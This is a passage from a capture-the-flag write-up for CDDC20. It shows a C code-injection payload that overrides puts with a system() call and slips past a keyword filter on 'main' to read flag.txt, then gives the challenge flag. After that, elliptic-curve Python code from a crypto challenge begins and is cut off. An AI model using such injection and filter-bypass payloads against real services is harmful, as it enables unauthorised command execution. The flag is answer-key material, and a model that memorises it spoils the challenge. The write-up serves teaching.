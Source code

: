After hijacking puts like before, we escape the bad word parsing of main by writing `ma""in` into a file, which will discard the `"`. The Quine is escaped by making use of `>` in linux cli, then readfile in C

Payload:
```c
1234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890"; int puts(int a){ system("echo 'int ma""in(){system(\"cat test\");}/*' > test; cat flag.txt >> test; echo '*/' >> test; cat test "); }; char o[3217];//
```

Flag: `CDDC20{@@Three_Multiplied_By_Four_Is_Twelve!!}`

---

### <a name="wg-2-5"></a>A Kind of Crypto

![kind of crypto]({{ site.baseurl }}/assets/img/CDDC20/A_kind_of_crypto.png)

```python
def mulInv(n, q):  
    return extEuclid(n, q)[0] % q

def extEuclid(a, b):
    s0, s1, t0, t1 = 1, 0, 0, 1
    while b > 0:
        q, r = divmod(a, b)
        a, b = b, r
        s0, s1, t0, t1 = s1, s0 - q * s1, t1, t0 - q * t1
        pass
    return s0, t0, a

def sqrRoot(n, q):
    r = pow(n,(q+1)/4,q)
    return r, q - r

Point = collections.namedtuple("Point", ["x", "y"])

class EC(object):
    def __init__(self, a, b, q):
        assert 0 < a and a < q and 0 < b and b < q and q > 2
        assert (4 * (a ** 3) + 27 * (b ** 2))  % q != 0
        self.a = a
        self.b = b
        self.q = q
        self.zero = Point(0, 0)
        pass

    def isOn(self, p):
        if p == self.zero: return True
        l = (p.y ** 2) % self.q
        r = ((p.x ** 3) + self.a * p.x + self.b) % self.q
        return l == r

    def findY(self, x):
        y2 = (x ** 3 + self.a * x + self.b) % self.q
        y, my = sqrRoot(y2, self.q)
        return y2 == y*y%self.q, y

    def negation(self, p):
        return Point(p.x, -p.y % self.q)

    def addition(self, p1, p2):
        if p1 == self.zero: return p2
        if p2 == self.zero: return p1
```